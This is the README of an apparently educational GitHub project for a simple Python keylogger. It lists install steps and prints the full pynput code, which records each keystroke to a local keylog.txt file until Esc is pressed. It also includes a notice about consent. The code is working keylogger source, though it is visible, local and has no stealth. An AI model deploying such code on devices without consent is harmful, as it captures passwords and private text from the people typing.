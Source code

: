 # PRODIGY_TrackCode_4

# Simple Keylogger

This is a basic Python keylogger that records and logs keystrokes to a file. **Use this program ethically and ensure you have explicit permission from the user or the owner of the device before running it.**

## Installation

1. Clone the repository to your local machine.

    ```bash
    git clone https://github.com/Saicharanpadarthi/simple-keylogger.git
    cd simple-keylogger
    ```

2. Install the required library.

    ```bash
    pip install pynput
    ```

## Usage

1. Run the script.

    ```bash
    python keylogger.py
    ```

2. The keylogger will start recording keystrokes and save them to `keylog.txt` in the same directory.

3. Press the `Esc` key to stop the keylogger.

## Code Explanation

The provided script uses the `pynput` library to listen to keyboard events. Here's a brief overview of how it works:

- **Importing pynput:** The script starts by importing the necessary module from `pynput`.

    ```python
    import pynput.keyboard
    ```

- **Global Log Variable:** A global variable `log` is used to store the keystrokes.

    ```python
    log = ""
    ```

- **Processing Key Presses:** The `process_key_press` function appends the keystrokes to the log. It handles both character keys and special keys (like space and other non-character keys).

    ```python
    def process_key_press(key):
        global log
        try:
            log = log + str(key.char)
        except AttributeError:
            if key == pynput.keyboard.Key.space:
                log = log + " "
            else:
                log = log + " " + str(key) + " "
        print(log)
        with open("keylog.txt", "a") as f:
            f.write(log)
    ```

- **Stopping the Keylogger:** The `process_key_release` function stops the keylogger when the `Esc` key is pressed.

    ```python
    def process_key_release(key):
        if key == pynput.keyboard.Key.esc:
            return False
    ```

- **Listener Setup:** The script sets up the keyboard listener and starts it.

    ```python
    keyboard_listener = pynput.keyboard.Listener(on_press=process_key_press, on_release=process_key_release)
    with keyboard_listener:
        keyboard_listener.join()
    ```

## Ethical Considerations

Keylogging can be considered illegal or unethical if done without proper consent. Always ensure you have explicit permission from the user or the owner of the device before running any keylogging software. Use this program responsibly.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
